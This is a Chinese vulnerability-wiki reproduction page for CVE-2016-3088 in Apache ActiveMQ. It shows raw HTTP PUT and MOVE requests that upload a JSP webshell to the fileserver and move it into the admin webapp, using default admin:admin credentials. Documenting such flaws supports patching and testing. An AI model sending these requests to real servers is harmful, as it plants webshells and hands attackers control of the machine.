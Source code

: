 <h1>（CVE-2016-3088）ActiveMQ应用漏洞</h1>
<h2>一、漏洞简介</h2>
<p>ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。</p>
<h2>二、漏洞影响</h2>
<p>Apache ActiveMQ 5.x ~ 5.14.0</p>
<h2>三、复现过程</h2>
<p>漏洞是需要登录之后才可以执行<br>
漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/<br>
下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面<br>
所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去<br>
如果上传不解析的话，则是证明没有权限！！！<br>
如果上传不解析的话，则是证明没有权限！！！<br>
如果上传不解析的话，则是证明没有权限！！！<br>
ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/img2.png"/>
<pre><code>
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
</code></pre>
<p>shell<br>
利用 MOVE 方法将 Webshell 移入 admin/ 目录</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/img3.png"/>
<pre><code>
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0
</code></pre>
<p>shell</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/img4.png"/>
